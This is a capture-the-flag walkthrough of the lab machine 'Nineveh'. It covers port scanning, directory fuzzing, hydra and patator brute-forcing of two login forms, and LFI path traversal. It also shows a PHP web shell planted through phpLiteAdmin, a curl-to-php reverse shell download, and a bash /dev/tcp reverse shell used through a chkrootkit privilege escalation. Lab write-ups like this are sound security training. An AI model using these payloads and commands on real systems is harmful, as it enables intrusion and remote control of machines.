# Nineveh

## scanning

```bash
furious 10.10.10.43
sudo nmap -sC -sV -sS -p 443,80 -Pn -n 10.10.10.43 -oN targeted
```


## 80
```bash
wfuzz -c --hc 403,404 -t 100 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt http://10.10.10.43/FUZZ
```


## 443
```bash
wfuzz -c --hc 403,404 -t 100 -w /usr/share/dirb/wordlists/common.txt https://10.10.10.43/FUZZ
```


## bruteforce 

### hydra
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 -S -s 443 http-post-form '/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password'
```

password123

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form '/department/login.php:username=admin&password=^PASS^:Invalid Password\!'
```

admin: 1q2w3e4r5t

### patator
```bash
patator http_fuzz url="http://10.10.10.43/department/login.php" method=POST  body='username=admin&password=FILE0' 0=/usr/share/wordlists/rockyou.txt -x ignore:fgrep="Invalid Password"
```


### Hi admin


### LFI
http://10.10.10.43/department/manage.php?notes=/ninevehNotes/../../../../../../etc/passwd


### phpliteadmin
we enter and add a table


```php
<?php system($_REQUEST["cmd"]); ?>
```


We see there the path


so we enter in
http://10.10.10.43/department/manage.php?notes=/ninevehNotes/../../../../var/tmp/ninevehNotes.php


now we search a reverse shell in php and conifgure it to use in the next link, also we start a http service from python


```html
http://10.10.10.43/department/manage.php?notes=/ninevehNotes/../../../../var/tmp/ninevehNotes.php&cmd=curl 10.10.14.6/shell.php | php
```



## root the box

we create a procmon.sh

```bash
#!/bin/bash

old_process=$(ps -eo command)
while true; do
        new_process=$(ps -eo command)
        diff <(echo "$old_process") <(echo "$new_process") | grep '[\>\<]'| grep -v -E 'procmon|command'
        old_process=$new_process
done
```

```bash
searchsploit chkrootkit
searchsploit -x linux/local/33899.txt
```
we have to create a script named update and give it execution privilege in /tmp
```
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.6/5555 0>&1
```
we wait for the connection in 5555 and wait


## user

cat /home/amrois/user.txt
cat /root/root.txt
